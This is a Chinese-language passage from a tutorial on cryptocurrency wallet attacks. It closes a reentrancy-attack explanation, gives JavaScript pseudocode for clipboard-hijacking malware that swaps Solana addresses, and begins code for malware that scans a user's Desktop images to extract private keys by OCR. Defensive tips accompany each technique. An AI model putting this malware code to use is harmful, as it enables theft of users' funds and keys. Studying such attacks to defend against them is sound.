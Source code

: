 **攻击过程**：
1. 黑客部署 `Attacker` 合约并向 `VulnerableBank` 存入少量 ETH。
2. 调用 `attack()` 函数，触发 `withdraw()`。
3. 在 `VulnerableBank` 转账给 `Attacker` 时，`receive()` 函数被调用，重复执行 `withdraw()`，直到耗尽合约资金。

**如何防范**：
- 在智能合约中，使用“检查-效果-交互”模式（Checks-Effects-Interactions），即先更新状态再执行外部调用。
- 使用非重入修饰符（如 OpenZeppelin 的 `nonReentrant`）。
- 定期审计合约代码，避免逻辑漏洞。


### 方法 3：交易篡改（中间人攻击）
**原理**：黑客通过恶意软件（如剪贴板劫持）篡改用户复制的接收地址，将资金转到黑客控制的地址。

**伪代码示例**：
```javascript
// 恶意软件伪代码（运行在用户设备上）
function monitorClipboard() {
  const originalAddress = navigator.clipboard.readText();
  if (isValidSolanaAddress(originalAddress)) {
    const hackerAddress = "HACKER_ADDRESS_HERE";
    navigator.clipboard.writeText(hackerAddress);
    console.log(`地址已替换: ${originalAddress} -> ${hackerAddress}`);
  }
}

// 检测 Solana 地址的简单校验
function isValidSolanaAddress(address) {
  return address.length === 44 && /^[A-Za-z0-9]+$/.test(address);
}

// 持续监控剪贴板
setInterval(monitorClipboard, 1000);
```

**如何防范**：
- 使用防病毒软件检测恶意程序。
- 手动验证交易地址，而不是依赖复制粘贴。
- 在发送交易前，使用钱包的地址校验功能。

除了监控剪贴板，最近我还发现一些恶意钱包会读取用户本地的图片，读取这些图片，利用光学字符识别（OCR）技术提取私钥信息，进而控制用户钱包并转移资产。

接下来，我们通过代码来讲解。

第一步：扫描本地图片

```py
import os

def scan_images(directory):
    image_files = []
    for root, _, files in os.walk(directory):
        for file in files:
            if file.endswith((".png", ".jpg", ".jpeg")):
                image_files.append(os.path.join(root, file))
    return image_files

# 示例：扫描桌面
desktop_path = os.path.expanduser("~/Desktop")
images = scan_images(desktop_path)
print("找到的图片文件:", images)

```
